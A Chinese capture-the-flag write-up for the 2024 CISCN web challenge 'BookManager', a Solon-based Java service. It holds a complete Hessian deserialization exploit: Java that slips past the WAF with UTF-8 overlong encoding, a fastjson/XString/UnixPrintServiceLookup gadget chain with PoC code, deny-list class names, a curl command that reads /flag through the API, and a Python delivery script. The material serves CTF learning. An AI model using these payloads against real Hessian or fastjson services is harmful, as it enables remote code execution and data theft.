


# 2024 CISCN & 第二届长城杯铁人三项赛 0解Web BookManager 题解-先知社区

> **来源**: https://xz.aliyun.com/news/16315  
> **文章ID**: 16315

---

题目实现了一个基于纯血国产 Java Framework Solon 的图书信息管理系统的后端，后端使用 Restful API 进行信息传递，由于不是典型的框架，我们需要首先配置调试环境进行调试，确定题目考点

## 反序列化入口点

简单搜索关于 Solon 开源项目的漏洞，发现在 Github 的 Issue 中存在相关信息：<https://github.com/opensolon/solon/issues/73>

在基于 Solon Framework 的项目中，如果 Content-Type 为 `application/hessian` ，则发送到含参 RESTful API 的 Request 中的 Body 部分会被 Hessian 进行反序列化，会调用 org.noear.solon.serialization.hessian/HessianActionExecutor.java 进行处理，我们转到附件中的该触发函数处：



## 绕过反序列化流量WAF

可以发现在触发函数调用 `readObject()` 进行反序列化前经过了一个 `tested()` 函数的测试，只有通过了该测试才会进行正常的反序列化流程，否则会返回 null 阻止其进行反序列化

简单阅读 `tested()` 函数相关检测代码：  


不难发现这是一个基于 KMP 匹配算法的流量检测 WAF，用来阻止流量中的危险类，防止危险类被反序列化，其中testCases如下：

```
bsh.
ch.qos.logback.core.db.
clojure.
com.alibaba.citrus.springext.support.parser.
com.alibaba.citrus.springext.util.SpringExtUtil.
com.alibaba.druid.pool.
com.alibaba.hotcode.internal.org.apache.commons.collections.functors.
com.alipay.custrelation.service.model.redress.
com.alipay.oceanbase.obproxy.druid.pool.
com.caucho.config.types.
com.caucho.hessian.test.
com.caucho.naming.
com.ibm.jtc.jax.xml.bind.v2.runtime.unmarshaller.
com.ibm.xltxe.rnm1.xtq.bcel.util.
com.mchange.v2.c3p0.
com.mysql.jdbc.util.
com.rometools.rome.feed.
com.sun.corba.se.impl.
com.sun.corba.se.spi.orbutil.
com.sun.jndi.rmi.
com.sun.jndi.toolkit.
com.sun.org.apache.bcel.internal.
com.sun.org.apache.xalan.internal.
com.sun.rowset.
com.sun.xml.internal.bind.v2.
com.taobao.vipserver.commons.collections.functors.
groovy.lang.
java.awt.
java.beans.
java.lang.ProcessBuilder
java.lang.Runtime
java.rmi.server.
java.security.
java.util.ServiceLoader
java.util.StringTokenizer
javassist.bytecode.annotation.
javassist.tools.web.Viewer
javassist.util.proxy.
javax.imageio.
javax.imageio.spi.
javax.management.
javax.media.jai.remote.
javax.naming.
javax.script.
javax.sound.sampled.
javax.swing.
javax.xml.transform.
net.bytebuddy.dynamic.loading.
oracle.jdbc.connector.
oracle.jdbc.pool.
org.apache.aries.transaction.jms.
org.apache.bcel.util.
org.apache.carbondata.core.scan.expression.
org.apache.commons.beanutils.
org.apache.commons.codec.binary.
org.apache.commons.collections.functors.
org.apache.commons.collections4.functors.
org.apache.commons.codec.
org.apache.commons.configuration.
org.apache.commons.configuration2.
org.apache.commons.dbcp.datasources.
org.apache.commons.dbcp2.datasources.
org.apache.commons.fileupload.disk.
org.apache.ibatis.executor.loader.
org.apache.ibatis.javassist.bytecode.
org.apache.ibatis.javassist.tools.
org.apache.ibatis.javassist.util.
org.apache.ignite.cache.
org.apache.log.output.db.
org.apache.log4j.receivers.db.
org.apache.myfaces.view.facelets.el.
org.apache.openjpa.ee.
org.apache.openjpa.ee.
org.apache.shiro.
org.apache.tomcat.dbcp.
org.apache.velocity.runtime.
org.apache.velocity.
org.apache.wicket.util.
org.apache.xalan.xsltc.trax.
org.apache.xbean.naming.context.
org.apache.xpath.
org.apache.zookeeper.
org.aspectj.
org.codehaus.groovy.runtime.
org.datanucleus.store.rdbms.datasource.dbcp.datasources.
org.dom4j.
org.eclipse.jetty.util.log.
org.geotools.filter.
org.h2.value.
org.hibernate.tuple.component.
org.hibernate.type.
org.jboss.ejb3.
org.jboss.proxy.ejb.
org.jboss.resteasy.plugins.server.resourcefactory.
org.jboss.weld.interceptor.builder.
org.junit.
org.mockito.internal.creation.cglib.
org.mortbay.log.
org.mockito.
org.thymeleaf.
org.quartz.
org.springframework.aop.aspectj.
org.springframework.beans.BeanWrapperImpl$BeanPropertyHandler
org.springframework.beans.factory.
org.springframework.expression.spel.
org.springframework.jndi.
org.springframework.orm.
org.springframework.transaction.
org.yaml.snakeyaml.tokens.
ognl.
pstore.shaded.org.apache.commons.collections.
sun.print.
sun.rmi.server.
sun.rmi.transport.
weblogic.ejb20.internal.
weblogic.jms.common.

```

可以发现该黑名单与 hessian-lite 3.2.13 中的 DENY\_CLASS 相同，且该题的运行环境为 JDK17，因此不存在直接绕过的方法

### Hessian UTF-8 Overlong Encoding

又由于此处为 Hessian 反序列化，因此可以使用 [Hessian UTF-8 Overlong Encoding](https://exp10it.io/2024/02/hessian-utf-8-overlong-encoding/) 的方法进行绕过：

绕过部分Poc：

```
package com.example;

import com.caucho.hessian.io.Hessian2Output;

import java.io.IOException;
import java.io.OutputStream;
import java.lang.reflect.Field;

public class Hessian2OutputWithOverlongEncoding extends Hessian2Output {
    public Hessian2OutputWithOverlongEncoding(OutputStream os) {
        super(os);
    }

    @Override
    public void printString(String v, int strOffset, int length) throws IOException {
        int offset = (int) getSuperFieldValue("_offset");
        byte[] buffer = (byte[]) getSuperFieldValue("_buffer");

        for (int i = 0; i < length; i++) {
            if (SIZE <= offset + 16) {
                setSuperFieldValue("_offset", offset);
                flushBuffer();
                offset = (int) getSuperFieldValue("_offset");
            }

            char ch = v.charAt(i + strOffset);

            // 2 bytes UTF-8
            buffer[offset++] = (byte) (0xc0 + (convert(ch)[0] & 0x1f));
            buffer[offset++] = (byte) (0x80 + (convert(ch)[1] & 0x3f));
        }

        setSuperFieldValue("_offset", offset);
    }

    @Override
    public void printString(char[] v, int strOffset, int length) throws IOException {
        int offset = (int) getSuperFieldValue("_offset");
        byte[] buffer = (byte[]) getSuperFieldValue("_buffer");

        for (int i = 0; i < length; i++) {
            if (SIZE <= offset + 16) {
                setSuperFieldValue("_offset", offset);
                flushBuffer();
                offset = (int) getSuperFieldValue("_offset");
            }

            char ch = v[i + strOffset];

            // 2 bytes UTF-8
            buffer[offset++] = (byte) (0xc0 + (convert(ch)[0] & 0x1f));
            buffer[offset++] = (byte) (0x80 + (convert(ch)[1] & 0x3f));
        }

        setSuperFieldValue("_offset", offset);
    }

    public int[] convert(int i) {
        int b1 = ((i >> 6) & 0b11111) | 0b11000000;
        int b2 = (i & 0b111111) | 0b10000000;
        return new int[]{ b1, b2 };
    }

    public Object getSuperFieldValue(String name) {
        try {
            Field f = this.getClass().getSuperclass().getDeclaredField(name);
            f.setAccessible(true);
            return f.get(this);
        } catch (Exception e) {
            return null;
        }
    }

    public void setSuperFieldValue(String name, Object val) {
        try {
            Field f = this.getClass().getSuperclass().getDeclaredField(name);
            f.setAccessible(true);
            f.set(this, val);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```

## 绕过黑名单构造Gadget

继续跟进反序列化流程，发现该题在原来的 Hessian 反序列化流程中做了 Patch，使用了自带黑名单：

com.alibaba.com.caucho.hessian.io/ClassFactory：

```
static {
        _staticAllowList = new ArrayList<Allow>();

        ClassLoader classLoader = ClassFactory.class.getClassLoader();
        List<String> stringList = new ArrayList<>();
        for (byte[] bytes : byteArray) {
            stringList.add(new String(bytes));
        }
        String[] denyClasses = stringList.toArray(new String[0]);
        for (String denyClass : denyClasses) {
            if (denyClass.startsWith("#")) {
                continue;
            }
            if (denyClass.endsWith(".")) {
                _staticAllowList.add(new AllowPrefix(denyClass, false));
            } else {
                _staticAllowList.add(new Allow(toPattern(denyClass), false));
            }
        }
    }

```

其中黑名单如下：

```
bsh.
ch.qos.logback.core.db.
clojure.
com.alibaba.citrus.springext.support.parser.
com.alibaba.citrus.springext.util.SpringExtUtil.
com.alibaba.druid.pool.
com.alibaba.hotcode.internal.org.apache.commons.collections.functors.
com.alipay.custrelation.service.model.redress.
com.alipay.oceanbase.obproxy.druid.pool.
com.caucho.config.types.
com.caucho.hessian.test.
com.caucho.naming.
com.ibm.jtc.jax.xml.bind.v2.runtime.unmarshaller.
com.ibm.xltxe.rnm1.xtq.bcel.util.
com.mchange.v2.c3p0.
com.mysql.jdbc.util.
com.rometools.rome.feed.
com.sun.corba.se.impl.
com.sun.corba.se.spi.orbutil.
com.sun.jndi.rmi.
com.sun.jndi.toolkit.
com.sun.org.apache.bcel.internal.
com.sun.org.apache.xalan.internal.
com.sun.rowset.
com.sun.xml.internal.bind.v2.
com.taobao.vipserver.commons.collections.functors.
groovy.lang.
java.awt.
java.beans.
java.lang.ProcessBuilder
java.lang.Runtime
java.rmi.server.
java.security.
java.util.ServiceLoader
java.util.StringTokenizer
javassist.bytecode.annotation.
javassist.tools.web.Viewer
javassist.util.proxy.
javax.imageio.
javax.imageio.spi.
javax.management.
javax.media.jai.remote.
javax.naming.
javax.script.
javax.sound.sampled.
javax.swing.
javax.xml.transform.
net.bytebuddy.dynamic.loading.
oracle.jdbc.connector.
oracle.jdbc.pool.
org.apache.aries.transaction.jms.
org.apache.bcel.util.
org.apache.carbondata.core.scan.expression.
org.apache.commons.beanutils.
org.apache.commons.codec.binary.
org.apache.commons.collections.functors.
org.apache.commons.collections4.functors.
org.apache.commons.configuration.
org.apache.commons.configuration2.
org.apache.commons.dbcp.datasources.
org.apache.commons.dbcp2.datasources.
org.apache.commons.fileupload.disk.
org.apache.ibatis.executor.loader.
org.apache.ibatis.javassist.bytecode.
org.apache.ibatis.javassist.tools.
org.apache.ibatis.javassist.util.
org.apache.ignite.cache.
org.apache.log.output.db.
org.apache.log4j.receivers.db.
org.apache.myfaces.view.facelets.el.
org.apache.openjpa.ee.
org.apache.openjpa.ee.
org.apache.shiro.
org.apache.tomcat.dbcp.
org.apache.velocity.runtime.
org.apache.velocity.
org.apache.wicket.util.
org.apache.xalan.xsltc.trax.
org.apache.xbean.naming.context.
org.apache.xpath.
org.apache.zookeeper.
org.aspectj.apache.bcel.util.
org.codehaus.groovy.runtime.
org.datanucleus.store.rdbms.datasource.dbcp.datasources.
org.eclipse.jetty.util.log.
org.geotools.filter.
org.h2.value.
org.hibernate.tuple.component.
org.hibernate.type.
org.jboss.ejb3.
org.jboss.proxy.ejb.
org.jboss.resteasy.plugins.server.resourcefactory.
org.jboss.weld.interceptor.builder.
org.mockito.internal.creation.cglib.
org.mortbay.log.
org.quartz.
org.springframework.aop.aspectj.
org.springframework.beans.BeanWrapperImpl$BeanPropertyHandler
org.springframework.beans.factory.
org.springframework.expression.spel.
org.springframework.jndi.
org.springframework.orm.
org.springframework.transaction.
org.yaml.snakeyaml.tokens.
pstore.shaded.org.apache.commons.collections.
sun.rmi.server.
sun.rmi.transport.
weblogic.ejb20.internal.
weblogic.jms.common.

```

将两个黑名单进行比对，发现存在区别，猜测需要从相差的几个类中入手，又由于题目中引入了fastjson 1.2.83依赖，猜测应该是此处构造反序列化Gadget需要使用：

```
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.83</version>
</dependency>

```

我们从最原始和经典的 FastJson 链入手：

```
ObjectInputStream.readObject -> 
HashMap.readObject -> 
BadAttributeValueExpException.readObject -> 
JSONArray.toString -> 
JSON.toString （JSONArray extends JSON）-> 
JSON.toJSONString -> 
TemplatesImpl.getOutputProperties -> 
TemplatesImpl.newTransformer

```

但是由于存在黑名单，因此需要进行绕过以下两个类：

```
javax.management.BadAttributeValueExpException
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl

```

对于 BadAttributeValueExpException，其作用为 from readObject to toStringBean.toString，可以找到未被 blacklist 的 XString.equals 来替换，而最后的 sink 可以使用 UnixPrintServiceLookup 替换，最终的调用链为：

```
getDefaultPrintService:640, UnixPrintServiceLookup (sun.print)
write:-1, ASMSerializer_1_UnixPrintServiceLookup (com.alibaba.fastjson.serializer)
write:271, MapSerializer (com.alibaba.fastjson.serializer)
write:44, MapSerializer (com.alibaba.fastjson.serializer)
write:312, JSONSerializer (com.alibaba.fastjson.serializer)
toJSONString:1077, JSON (com.alibaba.fastjson)
toString:1071, JSON (com.alibaba.fastjson)
equals:391, XString (com.sun.org.apache.xpath.internal.objects)
equals:495, AbstractMap (java.util)
putVal:636, HashMap (java.util)
put:613, HashMap (java.util)
doReadMap:145, MapDeserializer (com.alibaba.com.caucho.hessian.io)
readMap:126, MapDeserializer (com.alibaba.com.caucho.hessian.io)
readObject:2733, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject:2308, Hessian2Input (com.alibaba.com.caucho.hessian.io)
main:166, Main (org.example)

```

最终构造完成的 Poc 如下：

```
try {
    //需要执行的命令
    String cmd = "x";
    Field theUnsafe = Unsafe.class.getDeclaredField("theUnsafe");
    theUnsafe.setAccessible(true);
    Unsafe unsafe = (Unsafe) theUnsafe.get(null);
    Object unixPrintServiceLookup = unsafe.allocateInstance(UnixPrintServiceLookup.class);
    //绕过getDefaultPrinterNameBSD中的限制
    //设置属性
    setValue(unixPrintServiceLookup, "cmdIndex", 0);
    setValue(unixPrintServiceLookup, "osname", "xx");
    setValue(unixPrintServiceLookup, "lpcFirstCom", new String[]{cmd, cmd, cmd});

    //封装一个JSONObject对象调用getter方法
    JSONObject jsonObject = new JSONObject();
    jsonObject.put("xx", unixPrintServiceLookup);

    //使用XString类调用toString方法
    XString xString = new XString("xx");
    HashMap map1 = new HashMap();
    HashMap map2 = new HashMap();
    map1.put("yy",jsonObject);
    map1.put("zZ",xString);
    map2.put("yy",xString);
    map2.put("zZ",jsonObject);

    //使用反射赋值，防止序列化过程调用equals方法
    HashMap s = new HashMap();
    setValue(s, "size", 2);
    Class nodeC;
    try {
        nodeC = Class.forName("java.util.HashMap$Node");
    }
    catch ( ClassNotFoundException e ) {
        nodeC = Class.forName("java.util.HashMap$Entry");
    }
    Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
    nodeCons.setAccessible(true);
    Object tbl = Array.newInstance(nodeC, 2);
    Array.set(tbl, 0, nodeCons.newInstance(0, map1, map1, null));
    Array.set(tbl, 1, nodeCons.newInstance(0, map2, map2, null));
    setValue(s, "table", tbl);

    FileOutputStream fileOutputStream=new FileOutputStream("ser");
    Hessian2OutputWithOverlongEncoding hessianOutput = new Hessian2OutputWithOverlongEncoding(fileOutputStream);
    hessianOutput.setSerializerFactory(new SerializerFactory());
    hessianOutput.getSerializerFactory().setAllowNonSerializable(true);
    hessianOutput.writeObject(s);
    hessianOutput.flushBuffer();

    // test
    Hessian2Input hessian2Input=new Hessian2Input(new FileInputStream("ser"));
    hessian2Input.readObject();

}catch (Exception e) {
    e.printStackTrace();
}

```

## 调用API回显数据

在上一步中我们实现了 RCE，但是由于本题并不出网，所以需要考虑如何回显 flag 数据

由于 Solon 框架是与 SpringBoot 类似的框架，不能与 Tomcat 一样使用文件构造 Path 来进行回显，且第二个黑名单严格限制了反序列化的类，难以直接或通过二次反序列化来动态加载字节码注入内存马，因此需要使用别的方法

注意到题目中的API `/addBook` 可以动态添加图书内容，且添加的图书内容可以通过 `/getAllBooks` 回显，因此可以在 RCE 后调用此 API 实现 flag 的回显

```
curl -X POST http://localhost:8080/api/rest/book/addBook -H "Content-Type: application/json" -d '{"bookId": 1, "title": "'$(cat /flag)'", "author": "yuanshan", "publishDate": "2024-12-22", "price": 0.00}'

```

最后附一个生成ser后一键获得 flag 的 python 脚本：

```
import re
import requests

with open("ser", "rb") as f:
    body = f.read()

print(len(body))

url = "http://localhost:8080/api/rest/book/getBook"
headers = { "Content-Type": "application/hessian" }
response = requests.get(url, headers=headers, data=body)
print(response.text)

url = "http://localhost:8080/api/rest/book/getAllBooks"
response = requests.get(url)
match = re.search(r'flag\{[^\}]+\}', response.text)
print(match.group(0) if match else "Flag not found")

```
